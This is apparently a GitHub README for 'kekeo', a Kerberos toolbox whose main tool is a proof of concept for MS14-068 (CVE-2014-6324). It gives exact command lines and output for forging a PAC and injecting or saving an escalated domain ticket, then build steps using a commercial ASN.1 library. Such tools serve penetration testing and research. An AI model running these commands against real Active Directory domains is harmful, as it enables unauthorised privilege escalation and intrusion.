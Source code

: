 # kekeo

**`kekeo`** is a little toolbox I have started to manipulate Microsoft Kerberos in C (and for fun)

## Tools

### ms14068

A little POC for Kerberos MS14-068 / CVE-2014-6324 (https://technet.microsoft.com/library/security/ms14-068.aspx) !

Quick example: `ms14068.exe /domain:vuln.local /user:utilisateur /password:waza1234/ /ptt`
```
[KDC] 'dc.vuln.local' will be the main server
[AUTH] Impersonation
[KDC] 1 server(s) in list
[SID/RID] 'utilisateur @ vuln.local' must be translated to SID/RID

user     : utilisateur
domain   : vuln.local
password : ***
sid      : S-1-5-21-2666969376-4225180350-4077551764
rid      : 1104
key      : cc36cf7a8514893efccd332446158b1a (rc4_hmac_nt)
ticket   : ** Pass The Ticket **
 [level 1] Reality       (AS-REQ)
 [level 2] Van Chase     (PAC TIME)
  * PAC generated
  * PAC """signed"""
 [level 3] The Hotel     (TGS-REQ)
 [level 4] Snow Fortress (TGS-REQ)
  * DC : [level 5] Limbo ! (KRB-CRED) :  * TGT successfully submitted for current session
Auto inject BREAKS on first Pass-the-ticket
```

Full : `ms14068.exe /domain:vuln.local /sid:S-1-5-21-2666969376-4225180350-4077551764 /user:utilisateur /rid:1104 /password:waza1234/ /aes256 /kdc:dc.vuln.local /ticket:utilisateur_admin.kirbi`

```
user     : utilisateur
domain   : vuln.local
password : ***
sid      : S-1-5-21-2666969376-4225180350-4077551764
rid      : 1104
key      : e1c656c9d790509c3058203284591a240c2098ae6a71e7565e73162d6b3ee669 (aes256_hmac)
ticket   : utilisateur_admin.kirbi
kdc      : dc.vuln.local

 [level 1] Reality       (AS-REQ)
 [level 2] Van Chase     (PAC TIME)
  * PAC generated
  * PAC """signed"""
 [level 3] The Hotel     (TGS-REQ)
 [level 4] Snow Fortress (TGS-REQ)
 [level 5] Limbo         (KRB-CRED)
  * TGT in file 'utilisateur_admin.kirbi'
```

### aoratopw

### kirbikator

## ASN.1 library

In `kekeo`, I use an external commercial library to deal with Kerberos ASN.1 structures: **OSS ASN.1/C** (http://www.oss.com/asn1/products/asn1-c/asn1-c.html)  
It was the **only** code generator/library that I've found to work easily with Microsoft C project.
  * works without a lots of dependencies;
  * magical documentation;
  * wonderful support for my stupid questions;
  * had a binary that work only few hours after started my project...

They were kind enough to offer me a 1-year licence.  
With this one, I'm able to let you download binaries that run in your environment.  
So don't forget to thank them ( http://www.oss.com/company/contact-us.html / https://twitter.com/OSSNokalva )

### Limitations
  * Binaries will work until March 16, 2016 (yeah, 1 year licence ;));
  * You must buy a licence from **OSS ASN.1/C** (_or download a trial version_) to build `kekeo` solution/adapt it.
    * http://www.oss.com/asn1/products/asn1-c/asn1-c.html
    * When you register for a free trial, don't forget to refer me in the description field ;) (`kekeo` or `gentilkiwi`)

### Building `kekeo` with ASN.1/C
You **can't** build `kekeo` out-of-the-box, you'have to generate C files and link with OSS libraries.  

After downloading a commercial/trial version of **OSS ASN.1/C**:
  1. Open `($kekeo)\modules\kull_m_kerberos_asn1.a1sproj` in **ASN.1 Studio**, and generate files with `Project/Compile` (or F7)
    * It will create `($kekeo)\modules\kull_m_kerberos_asn1.c` and `($kekeo)\modules\kull_m_kerberos_asn1.h`
  2. Copy from **OSS ASN.1/C** install dir (eg: `C:\Program Files (x86)\OSS Nokalva\ossasn1\win32\10.1.0\`)
    * `include\ossasn1.h` to `($kekeo)\inc\`
    * `include\osstype.h` to `($kekeo)\inc\`
    * `lib\toedcode.lib`to `($kekeo)\lib\`
    * `lib\ossiphlp.lib`to `($kekeo)\lib\`

You can now build the `kekeo` solution in **Visual Studio**

## Licence
CC BY-NC-SA 4.0 licence - https://creativecommons.org/licenses/by-nc-sa/4.0/

## Acknowledgements
  * Tom Maddock - Qualcomm - @ubernerdom - MS14-068 - https://www.qualcomm.com/
  * Sylvain Monn? - Solucom - @BiDOrD - Author of `PyKek` - https://github.com/bidord/pykek
  * Tal Be'ery - Aorato / Microsoft - @TalBeerySec - http://www.aorato.com/blog/active-directory-vulnerability-disclosure-weak-encryption-enables-attacker-change-victims-password-without-logged/
  * Grace Sigona - OSS - @OSSNokalva - http://www.oss.com/

## Author
Benjamin DELPY `gentilkiwi`, you can contact me on Twitter ( @gentilkiwi ) or by mail ( benjamin [at] gentilkiwi.com )

This is a **personal** development, please respect its philosophy and don't use it for bad things!
